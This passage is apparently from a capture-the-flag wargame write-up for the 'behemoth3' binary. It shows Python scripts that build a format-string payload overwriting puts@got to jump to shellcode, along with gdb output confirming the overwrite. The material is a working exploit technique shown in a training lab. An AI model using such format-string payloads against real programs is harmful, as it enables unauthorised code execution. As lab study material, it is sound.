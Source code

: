 ```python
#!/usr/bin/env python

from struct import *
f = open("in.txt", "w")

buf =  "\x90\x97\x04\x08"
buf += "\x92\x97\x04\x08"

# shellcode at 0xffffdef1
buf += "%1c%6$hn"
buf += "%1c%7$hn"
buf += "\n"

f.write(buf)
f.close()
```

This python script should write 10 to the high order bytes of puts@got and 9 to its low order bytes. Running the python script creates a file called in.txt. We'll redirect its contents into the binary: 

```
(gdb) r < in.txt 
Starting program: /games/behemoth/behemoth3 < in.txt
Identify yourself: Welcome, ����� 

Program received signal SIGSEGV, Segmentation fault.
0x000a0009 in ?? ()
```

gdb crashed with an address 0x000a0009 indicating we've overwritten puts@got. As expected, we've overwritten the high order bytes with 10, and the low order bytes with 9. With a bit of math, we adjust the padding so as to write the correct address into puts@got: 

```python
#!/usr/bin/env python

from struct import *
f = open("in.txt", "w")


buf =  "\x90\x97\x04\x08"
buf += "\x92\x97\x04\x08"

# shellcode at 0xffffdef1
buf += "%57065c%6$hn"
buf += "%8462c%7$hn"
buf += "\n"

f.write(buf)
f.close()
```
